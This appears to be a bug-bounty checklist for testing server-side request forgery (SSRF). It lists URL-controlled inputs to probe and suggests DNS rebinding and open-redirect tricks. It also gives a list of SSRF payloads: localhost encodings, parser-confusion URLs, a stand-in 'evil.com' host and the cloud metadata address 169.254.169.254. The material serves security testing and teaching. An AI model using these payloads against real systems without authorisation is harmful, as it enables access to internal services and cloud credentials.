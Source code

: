 
1. Find locations where you control the url
	1. Examples: PDF generators, pulling image files down, or even just parameters that call to files
2. When found:
	1. Test DNS rebinding: https://danielmiessler.com/blog/dns-rebinding-explained
	2. Open redirects, reuse an open redirect found in the SSRF to reach to external domains
	3. Use common SSRF payloads, use http or https:
		```
		- http://127.0.0.1:80
		- http://0.0.0.0:80
		- http://localhost:80
		- http://[::]:80/
		- http://spoofed.burpcollaborator.net
		- http://localtest.me
		- http://customer1.app.localhost.my.company.127.0.0.1.nip.io
		- http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
		- http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
		- http://127.127.127.127
		- http://2130706433/ = http://127.0.0.1
		- http://[0:0:0:0:0:ffff:127.0.0.1]
		- localhost:+11211aaa
		- http://0/
		- http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
		- http://127.1.1.1:80\@127.2.2.2:80/
		- http://127.1.1.1:80\@@127.2.2.2:80/
		- http://127.1.1.1:80:\@@127.2.2.2:80/
		- http://127.1.1.1:80#\@127.2.2.2:80/
		- http://169.254.169.254
		- 0://evil.com:80;http://google.com:80/
		```
3. More: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md


